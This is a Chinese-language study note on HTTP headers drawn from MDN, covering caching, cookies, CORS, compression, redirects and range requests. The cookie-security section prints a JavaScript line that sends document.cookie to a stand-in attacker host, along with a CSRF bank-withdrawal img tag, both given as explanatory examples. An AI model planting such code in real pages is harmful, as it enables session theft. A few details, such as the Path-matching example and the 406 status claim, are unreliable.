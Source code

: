 #+title: HTTP Headers 学习笔记
#+date: 2019-01-04
#+STARTUP: align
#+index: HTTP Headers 学习笔记
#+tags: HTTP
#+begin_abstract
大概两年前粗略地读过一下 *HTTP权威指南* 这本书(不知道名字有没有记错),当时读起来感觉好难懂,现在想起来感觉就像读 =Reference= 一样,不过书的确是好书,不过做为教程就有点过于厚重了.

因为之前读 *HTTP权威指南* 的时候还有很多地方不太懂,所以最近打算要复习一下 =HTTP Headers= 的内容,正好发现 *MDN* 上面有这部分的教程,并且简单明了,于是打算针对这一块这个笔记.

说个题外话, *MDN* 真是一个关于 *WEB* 开发的很好的文档库,我说的 *WEB* 开发并非只针对前端或者后端,而是前后端的总和, *MDN* 的教程相比那些厚重的书可谓是好太多了,简单易懂,而且还免费,这里衷心感谢 *Mozilla* 以及开源社区的各位.

题外话二,最近怠惰了好多,这篇文章其实很早之前就开始写了,不过懒癌晚期导致最近才发出来,新的一年要做出一些改变, time to show your true Tenno power.
#+end_abstract

HTTP 的[[https://developer.mozilla.org/en-US/docs/Web/HTTP/Overview][概览]]就不写了,自己看就好.后面也一样,详细的东西不会再赘述,我只会大概总结比较重要的东西.这里的内容我尽量会用 =Nginx= 的 =add_header= 指令来实践一下.

*** 缓存 (Cache)

缓存有不同类型(这里的缓存是指 =WEB= 的组成部分,并非储存的内容,自己结合上下文了解),可以分两大类: 私有(private)和公有(shared).私有就是只针对单个用户,比如浏览器自带的缓存;公有是对于多个用户的,公有缓存的目是储存可以复用的响应资源,比如代理缓存,网关缓存, =CDN=, 以及 =WEB= 服务器部署的反向代理缓存和负载均衡.

并非所有东西都够被缓存(cached),通常限于 =GET= 响应,其它请求方法可能没有那么好,常见的可缓存对象有如下:

1. 成功响应 (=GET= 请求的 =200= 响应)

2. 永久重定向 (=301= 响应)

3. 错误响应 (=404= 页面)

4. 不完全响应 (=206= 响应)

5. 除了 =GET= 以外适合用于作为缓存键(cache key)的响应,比如由不同键(secondary key)区分的多个缓存响应的组合

缓存索引内容形式大概就是 =Key : Value=, =Value= 就是缓存的内容, =Key= 是 =请求方法 + 目标 URI= 这样的组合,当用同样的请求方法请求同样的 =URI= 的时候就会找到对应的缓存资源了.

**** 缓存控制
***** Cache-Control

=HTTP/1.1= 的通用头,用来指定对于请求和响应的储存机制.

- 完全不缓存任何内容,每次浏览器请求服务器的时候都会得到一个完整的请求

  #+BEGIN_EXAMPLE
  Cache-Control: no-store

  或者

  Cache-Control: no-cache, no-store, must-revalidate
  #+END_EXAMPLE

- 不让缓存服务器缓存资源,在服务器发放新的缓存副本之前,缓存服务器会给原本的服务器发送请求进行验证,

  因为浏览器和服务器(也就是前面的原本的服务器)之间可能会有各种缓存(服务器),原本服务器更新了内容的话,中间缓存不一定会及时得到更新,为了确保是和原本服务器的内容一样就需要这么做了.

  #+BEGIN_EXAMPLE
  Cache-Control: no-cache
  #+END_EXAMPLE

- 设置公有或者私有缓存

  #+BEGIN_EXAMPLE
  Cache-Control: private

  或者

  Cache-Control: public
  #+END_EXAMPLE

- 设置缓存内容的生命周期为 =<seconds>= 秒

  #+BEGIN_EXAMPLE
  Cache-Control: max-age=<seconds>
  #+END_EXAMPLE

- 使用前必须验证缓存内容

  #+BEGIN_EXAMPLE
  Cache-Control: must-revalidate
  #+END_EXAMPLE

**** 新鲜度 (Freshness)

新鲜度话题涉及浏览器,缓存(服务器)以及源服务器三个组成部分.

#+CAPTION: 公有缓存的处理过程
https://mdn.mozillademos.org/files/13771/HTTPStaleness.png

新鲜度时间根据几个头来计算的,不同情况的计算方式不一样,

1. 如果指定了 =Cache-control: max-age=N=,那么新鲜度时间为 =N= 秒

2. 如果没有指定 =Cache-control: max-age=N=,那么检查 =Expires= 头,如果 =Expires= 头储存,那么它的值就减去 =Date= 头的值来得出新鲜度的时间.

3. 如果 =Expires= 头也不存在,那么就检查 =Last-Modification= 头,如果这个头存在,那么新鲜度的时间为 =Date= 头的值减去 =Last-Modified= 头的值的十分之一.

计算出新鲜度后就可以计算过期时间了: =接受到响应的时间点 + 新鲜度时间 - 当前缓存服务器资源的年龄=


**** 资源版本修订

给静态资源,比如 =CSS=, =JS= 这种文件的名字后面增加版本号,每次更新文件就修改版本号,这样可以(通过访问新的URI的方式)让静态资源马上得到更新.只需要开发人员开发的时候注意版本号,一般这工作都是交给自动构建工具完成的.


**** 缓存验证

(注意缓存资源处于缓存中).

如果缓存的响应包含 =Cache-control: must-revalidate= 头,那么当浏览器重新访问该资源的时候就会对它进行验证(发送验证请求),检查是否过期.

当缓存的文档到了过期时间,那么就会验证它或者刷新它,只有服务器提供了强验证器(strong validator)或者弱验证器(weak validator)的时候浏览器才会发验证请求.

强验证器是指响应头对于 =user agent= 不透明的,也就是说 =user agent= 不知道这个头的值代表什么以及值是什么.弱验证器是因为它们的精确度准确到秒.

强验证器有 =ETag=,弱验证器有 =Last-Modified=.

如果资源的部分响应中含有 =ETag= 头,那么客户端可以在后续的请求中加入 =If-None-Match= 头来验证缓存的资源.

如果响应中有 =Last-Modified= 头,那么客户端可以在后续的请求头中加入 =If-Modified-Since= 头来验证缓存的文档.

当验证的请求发送后,服务器可以通过返回 =200 OK= 来无视验证请求,或者返回 =304 Not Modified= 来告诉浏览器可以继续使用缓存的备份.后者还可以更新缓存文档的过期时间.

**** 区分响应 (Varying response)

=Vary= =HTTP= 响应头判断如何匹配之后的请求来决定是否继续使用一个已缓存的响应而或者向服务器请求刷新.

当缓存服务器收到一个请求,如果该请求带有一个 =Vary= 头,并且该 =Vary= 头与已缓存的响应的 =Vary= 一致就可以继续使用已缓存的资源,否则刷新资源.

#+CAPTION: HTTP Vary 头
https://mdn.mozillademos.org/files/13769/HTTPVary.png


*** Cookies

=Cookies= 的具体作用就不多说了,具体参考[[https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies][这里]]开头介绍.

服务器通过 =Set-Cookie= 响应头给 =User Agent= 颁发 =cookies=, =User Agent= 通过 =Cookie= 请求头给服务器发送 =cookies= 用来验证.

**** 会话cookies (Session Cookies)

结果例子,服务器给客户端颁发了一个 =cookie=,

响应头如下:

#+BEGIN_EXAMPLE
HTTP/2.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[page content]
#+END_EXAMPLE

客户端再次请求服务器时候的请求头如下:

#+BEGIN_EXAMPLE
GET /sample_page.html HTTP/2.0
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
#+END_EXAMPLE

这种叫做会话 =cookies=,这种 =cookies= 不指定 =Expires= 或者 =Max-Age= 头,一旦客户端关闭就会删除这些 =cookies=.

然而浏览器可以使用会话恢复(session restoring)功能,让大部份的会话 =cookies= 就好像没关闭过浏览器一样长期存在.



**** 持久cookies (Permanent cookies)

与会话 =cookies= 相反,持久 =cookies= 会在(通过 =Expires= 指令设置)特定日期或者(通过 =Max-Age= 指令设置)特定时间后过期.

#+BEGIN_EXAMPLE
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
#+END_EXAMPLE









**** Secure和HttpOnly

当 =cookies= 标记为 =Secure= 后,该 =cookie= 只能经过 =HTTPS= 协议加密后发送给服务器,即便如此也不要把重要信息储存在 =cookies= 中.

为了防止跨站脚本(cross-site scripting OR XSS)攻击, =JavaScript= 的 =document.cookie API= 是不能访问设置了 =HttpOnly= 的 =cookies= 的.

#+BEGIN_EXAMPLE
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
#+END_EXAMPLE


**** Cookies的作用域

=Cookies= 通过 =Domain= 和 =Path= 两个指令指定 =cookies= 的作用域,也就是告诉客户端 =cookies= 要发送到哪里.

=Domain= 指定可以接收 =cookies= 的服务器,如果没有指定,默认就是当前文档位置的服务器 (host of the current document location),不算它的子域;如果指定了,那么子域就包含进去.

=Path= 指定可以发送到 =Domain= 下的特定路径,该路径必须要存在在请求的 =URL= 中.

比如,如果 =Path=/docs=,那么以下路径也会被匹配:

#+BEGIN_EXAMPLE
/doc
/doc/Web/
/docs/Web/HTTP
#+END_EXAMPLE



**** 会话劫持和XSS(Session hijacking and XSS)以及跨站请求伪造(Cross-site request forgery)

会话劫持就是通过社会工程学或者利用 =WEB= 的 =XSS= 漏洞来窃取 =cookie=,比如一个用户登录了一个网站,这个时候用户在这个页面点击了一个伪造的连接如:

#+BEGIN_SRC javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie?cookie=" + document.cookie;
#+END_SRC

=HttpOnly= 可以防止这种问题的发生.

跨站请求伪造和 =XSS= 其实差不多,不过比起 =XSS= 直接偷 =cookie=,它是直接利用用户登录后的 =cookie= 直接调用一些接口,比如万年的银行转账例子:

用户登录了银行帐号并且 =cookie= 还合法,然后点击了这个连接:

#+BEGIN_SRC html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
#+END_SRC



**** 跟踪和隐私

***** 第三方 cookies (Third-party cookies)

=Cookie= 是和域名关联的,如果 =cookie= 关联的域名和当前域名的域名一样,这种 =cookie= 就是第一方 =cookie= (first-party cookies),第一方 =cookie= 只会被发送到源服务器中.

和第一方 =cookie= 相对,如果发送的服务器的域和 =cookie= 关联的域名不一样,那么这些 =cookies= 叫做第三方 =cookie= (third-party cookies).第三方 =cookie= 最常见的就是网页的广告,有第三方拓展可以禁止第三方 =cookie=.

***** Do-Not-Track

=DNT= 头告诉 =Web= 应用或者跨站用户不要跟踪某个用户.

***** 僵尸cookies和删不掉的cookies (Zombie cookies and Evercookies)

在删除之后马上被重新新建的 =cookies= 叫做僵尸 =cookies= 或者叫做删不掉的 =cookies=,这是通过 =Web storage API=, =Flash= 本地共享对象 (=Flash Local Shared Objects=) 以及其他技术来实现.


*** 跨域资源共享 (CORS: Cross-Origin Resource Sharing)

=CORS= 是一套机制: 通过使用额外的 =HTTP= 头告诉浏览器在某个域上运行的 =WEB= 应用拥有访问其它源上的某些(全部或者部分)资源.浏览器发送的这种请求叫做跨源请求(cross-origin HTTP request),只要域,协议和端口这三者中有一个不一样,那么就是不同源.

出于安全原因,浏览器会限制脚本的跨源请求,比如 =XMLHttpRequest= 和 =Fetch API= 就是遵守同源策略(same-origin policy),也就是说这些 =APIs= 只能请求同一个源上的资源,除非其它源(服务器)的响应配置了正确的 =CORS= 头部.

并非所有请求(request method)都会触发 =CORS preflighted (CORS 预测)=,(相对于简单请求)预测请求就是首先发送一个 =OPTIONS= 方法的请求,目的是为了知道资源的服务器支持哪些请求方法,然后再处理后续请求.不触发预测请求的请求叫做简单请求(simple requests).简单请求需要满足这些[[https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#Simple_requests][条件]],预测请求则需要满足这些[[https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#Preflighted_requests][条件]].

#+CAPTION: 简单请求
https://mdn.mozillademos.org/files/14293/simple_req.png

#+CAPTION: 预测请求
https://mdn.mozillademos.org/files/16401/preflight_.png

其中:

1. 请求中的 =Origin= 头表示发起请求的源;

2. 响应中的 =Access-Control-Allow-Origin= 头表示允许发请求访问的源;

3. 在预测请求中, =Access-Control-Request-Method= 头通知资源服务器接下来要发送实际请求的方法;

4. 在预测请求中, =Access-Control-Request-Headers= 头通知资源服务器发送实际请求时候带的自定义头;

5. 在预测响应中, =Access-Control-Allow-Methods= 头通知浏览器能发送的请求方法;

6. 在预测响应中, =Access-Control-Allow-Headers= 头通知浏览器能发送的自定义头;

7. 在预测响应中, =Access-Control-Max-Age= 指定了响应在下一个预测请求发送前能够缓存的时间.

**** 跨源请求的凭证问题

默认情况下,跨域 =XMLHttpRequest= 或者 =Fetch= 进行请求是不会发送凭证(=HTTP cookies= 和 =验证信息=)的.

如果想要利用这些 =APIs= 进行带凭证的跨域请求,可以设置 =XMLHttpRequest= 对象的 =withCredentials= =flag= 或者构建 =Request= 对象时候设置 =credentials= 参数.

如果服务器没有针对这些请求在响应中添加 =Access-Control-Allow-Credentials: true= 头,那么这个响应就会被浏览器无视.

还有要注意的是,当服务器接受到带凭证的跨域请求的时候, =Access-Control-Allow-Origin= 头一定要指定特定的源,不能是 =*= 元字符,否则会失败,因为带凭证的跨域请求带有 =Cookie= 头,而 =*= 不能正确匹配.

在 =CORS= 响应中设置的 =cookies= 叫做第三方 =cookie= (相关的参考 third-party cookie policies),如果用户把浏览器配置成不拒绝第三方 =cookies= 的话,第三方 =cookies= 就不会被保存.


*** 压缩 (Compression)

压缩可以提高网站的性能,节约带宽.现实中,开发开发者不需要实现压缩,浏览器和服务器早就好了,不过开发者要保证服务器配置正确.

可以在三个层面上进行压缩:

1. 文件格式

文件相比文字占用的空间要大,如果文字的冗余程度多于 =60%=,那么换成文件的话就要占用更多的空间.文件压缩算法分两大类:无损压缩算法以及有损压缩算法.

无损压缩算法(=Loss-less compression=)在解压和压缩过程中不修改要恢复的数据,复原前后的数据内容是一致的,比如 =gif= 和 =png= 格式的文件是采用无损压缩算法.

有损压缩算法(=Lossy compression=)则在解压和压缩过程中对原始数据进行修改,修改的程度则是用户难以察觉,通常在线视频就是采用有损压缩算法, =jpeg= 格式的图片也是有损.

也有一些文件格式可以采用两种算法,比如 =webp=,总体而言,有损压缩算法比无损压缩算法效率高.

2. =HTTP= 层面上的加密算法

这个层面上的叫做端到端压缩(end-to-end compression),具体做法就是服务器压缩资源,等待浏览器接收然后才解压,传输过程中不进行任何解压和压缩.

这个过程采用内容协商机制(proactive content negotiation),浏览器发送 =Accept-Encoding= 首部,包含它所支持的压缩算法以及使用优先级,服务器选择其中一种,并且通过 =Content-Encoding= 首部告诉浏览器选择的哪一种.

服务器必须发送一个包含 =Accept-Encoding= 的 =Vary= 头来对资源进行不同形式的缓存.

#+CAPTION: 端到端的压缩过程
[[https://mdn.mozillademos.org/files/13811/HTTPCompression1.png]]

3. 节点之间的链路层面上的压缩

逐跳压缩(Hop-by-hop compression),和端到端压缩类似,区别在于压缩发生在客户端与服务器中间的节点,不包括浏览器和服务器,比如缓存服务器,代理服务器等等.同样,这也需要进行内容协商.

发送请求的接点需要发送 =TE= 头告诉响应节点支持哪种压缩算法,然后响应节点通过返回 =Transfer-Encoding= 头告诉请求节点选择了哪一种压缩算法.

#+CAPTION: 逐跳的压缩过程
[[https://mdn.mozillademos.org/files/13809/HTTPComp2.png]]


*** 内容协商 (Content negotiation)

对同一个 =URI= 提供不同的展现形式,例如文档使用的自然语言,编码形式,图片格式等等.客户端请求资源的时候,服务器会选择该资源的变种做为响应,服务器如何选择变种资源则是靠内容协商机制决定的.

#+CAPTION: 内容协商机制
[[https://mdn.mozillademos.org/files/13789/HTTPNego.png]]

选择变种资源是通过以下两种方法其中一种:
1. 客户端指定 =HTTP= 头,这种叫做服务器驱动或者主动协商(server-driven negotiation or proactive negotiation),是标准的协商方式.
2. 服务器响应 =300= 或者 =406= 响应码,这种叫做代理驱动或者响应式协商(agent-driven negotiation or reactive negotiation),做为回滚机制使用.

**** 服务器驱动协商
这种方式定义了一套标准 =HTTP= 请求头来用于服务器驱动协商,除了标准头,还有一些别的头也能够用于内容协商.

***** 标准头

- Accept

  声明用户代理能够处理的所有 =MIME= 类型,该头的值是一个列表,每种类型都通过一个逗号隔开.

- Accept-CH

  目前还处于实验阶段,告诉服务器用户代理的需要选择一个正确的响应.(不深入了解,目前只有 =Chrome 46+= 的浏览器实现了).

- Accept-Charset

  声明用户代理能够理解的字符编码.

- Accept-CH-Lifetime

  和 =Accept-CH= 类似,不做深入了解,目前只有 =Chrome 61+= 的浏览器实现了.

- Accept-Encoding

  声明用户代理所支持的内容压缩算法.

- Accept-Language

  声明用户的偏好语言.

***** 非标准头

- User-Agent

  标识用户代理是什么浏览器,是一个字符串,内容一般如下,

  #+BEGIN_EXAMPLE
  USER-AGENT     :: PRODUCT-TOKEN + ("(" + COMMENT + ")")? + " " + USER-AGENT
                 :: ""
  PRODUCT-TOKENS :: name + "/" + version-number
  COMMENT        :: free-string-without-any-parentheses
  #+END_EXAMPLE

  举个例子, =Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0=.

  =COMMENT= 没有定义一个标准,一般来说就是上面这个例子的写法.

- Vary

  上面缓存中有写,就不说了.
**** 代理驱动协商

具体就不说了,了解[[https://developer.mozilla.org/en-US/docs/Web/HTTP/Content_negotiation#Agent-driven_negotiation][一下]]就好.


*** 重定向 (Redirection)

也叫做 =URL= 转发 (URL forwarding):访问某个 =URL= 的时候跳转到其它 URL, 有几个用途:当网站在维护的时候临时转发原来 =URL= 到能够访问的地方,以及当网站发生永久改变的时候保证旧的 =URL= 能够正常使用.

重定向有三种类型:永久重定向(permanent redirection),临时重定向(temporary redirection)和特殊重定向(special redirection).

**** 永久重定向

意味着这些重定向是长期不变的,这也暗示了原来的 =URL= 不再使用并且推荐新的 =URL=,搜索引擎会触发一次更新.

常见的两种状态码有两种:

|   | <状态码> | <文本描述>         | <方法处理>                        | <典型使用例子>                |
|---+----------+--------------------+-----------------------------------+-------------------------------|
| / |       <> | <>                 | <>                                | <>                            |
| # |      301 | Moved Permanently  | GET方法不变,其他方法可能会变成GET | 网站组织发生改变              |
| # |      308 | Permanent Redirect | 方法和消息主体不变                | 网站组织发生改变(用于non-GET) |


**** 临时重定向

有时候不能在标准的地方访问资源,但可以在别的地方访问.这个时候可以临时重定向,搜索引擎不会触发更新.

|   | <状态码> | <文本描述>         | <方法处理>                                       | <典型使用例子>                       |
|---+----------+--------------------+--------------------------------------------------+--------------------------------------|
| / |       <> | <>                 | <>                                               | <>                                   |
| # |      302 | Found              | GET方法不变,其他方法可能会变成GET                | 页面暂时不可用                       |
| # |      303 | See Other          | GET方法不变,其他方法可能会变成GET (消息主体丢失) | 在PUT或者POST后重定向来阻止页面刷新  |
| # |      307 | Temporary Redirect | 方法和消息主体不发生改变                         | 页面由于某些原因不能使用,用于non-GET |


**** 特殊重定向

|   | <状态码> | <文本描述>      | <典型使用例子>                                      |
|---+----------+-----------------+-----------------------------------------------------|
| / |       <> | <>              | <>                                                  |
| # |      300 | Multiple Choice | 在HTML页面中显示所有选项,也可以返回 =200 OK= 状态码 |
| # |      304 | Not Modified    | 缓存刷新                                            |





**** 其他重定向实现手段 

除了在后端设定头以外,还有其他方法可以实现重定向,[[https://developer.mozilla.org/en-US/docs/Web/HTTP/Redirections#Alternative_way_of_specifying_redirections][具体]]自己看,大部份人都略有了解.

**** 重定向循环

无限的重定向循环会导致永远找不到页面,大部份都是服务器的设置问题,如果服务器检测到了就会返回 =500 Internal Server Error= 错误 (并非所有错误都是因为重定向循环).

当然服务器也有检测不到的时候,比如服务器与服务器之间的重定向循环,这种情况浏览器就会检测到并且显示一个错误信息(不同浏览器的信息不一样).

*** 条件请求 (Conditional requests)

一个请求的结果会取决于验证器对资源验证的结果,这种请求叫做条件请求.用于验证缓存的有效性,文件完整性等等.由于验证器的概念在缓存一节提过一下,并且这一块比较笼统,[[https://developer.mozilla.org/en-US/docs/Web/HTTP/Conditional_requests][具体]]请自己看.


*** 范围请求/部分请求 (Range requests/Partial requests)

范围请求允许服务器只发消息的一部分给客户端,用于大的媒体文件以及实现暂停和重启下载的功能.

如果服务器的响应有 =Accept-Ranges= 首部并且值不为"none",那么服务器就支持范围请求,可以通过 =HEAD= 请求来验证,可以使用 =curl -I XXXX-URL= 来实现,返回结果会有 =Content-Length=,可以看出请求资源的大小.

如果服务器支持部分请求,那么用户可以设置 =Range= 头告诉服务器应该返回多大的文档 (parts of a document),成功的话还会返回 =206 Partial Content= 返回码.

同样可以利用 =curl -i -H "Range: bytes=0-1023" xxx-URL= 做实验(curl真的是万能的啊),其中 =-H= 选项是设置请求头的.

比如下载图片的第一个 =1024= 字节,

#+BEGIN_SRC shell
curl -i -H "Range: bytes=0-1023" http://i.imgur.com/z4d4kWk.jpg
#+END_SRC

这里会返回 =206 Partial Content= 状态码,并且 =Content-Length= 会显示内容大小, =Content-Range= 会标明部分信息属于哪一块,比如 =0-1023/146515=.

如果指定的范围大于请求资源的大小,就会返回 =416 Requested Range Not Satisfiable= 状态,比如上面的例子整个文档大小为 =146515 bytes=,把请求命令改为如下就会返回 =416=.

#+BEGIN_SRC shell
curl -i -H "Range: bytes=146515" http://i.imgur.com/z4d4kWk.jpg
#+END_SRC

上面是只下载一部分的,还指定多个范围集来告诉浏览器可以下载多个部分,一般开发中前端给后端上传文件都是用这种方式.

#+BEGIN_SRC shell
curl -i -H "Range: bytes=0-10, 100-150" https://developer.mozilla.org/en-US/docs/Web/HTTP/Range_requests
#+END_SRC

这里的意思是请求两个部分,响应头会包含 =content-type: multipart/byteranges; boundary=CloudFront:22D01D86714B960A7B73A5F8F8A4B9B0=,这个头说明了有多部分信息,每一部分都有自己的 =Content-Type=, =Content-Range= 头以及用来指定划分信息的边界参数.

多部分请求的时候要注意,多个范围机和中只少要有一个范围是合法的,否则将会返回 =406=.








